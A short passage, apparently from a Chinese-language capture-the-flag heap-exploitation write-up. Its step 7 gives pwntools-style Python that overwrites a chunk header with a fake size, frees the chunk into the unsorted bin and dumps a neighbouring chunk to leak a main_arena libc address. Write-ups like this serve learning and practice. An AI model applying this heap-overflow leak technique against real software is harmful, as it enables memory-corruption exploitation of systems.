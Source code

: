    ![0xe](/img/image-20220725214635353.png)

7. 直接通过Fill函数手动修改chunk2的头部，free chunk2然后通过dump chunk1泄露地址

   ```python
   payload= b'a'*0x40 + p64(0) + p64(0x111)
   fill(1,len(payload),payload)
   allocate(0x50) #防止free掉的chunk2与topchunk合并
   free(2) #由下图可见unsortedbin中 free掉的chunk2里fd和bk都已经指向了main_arena+88的位置
   ```
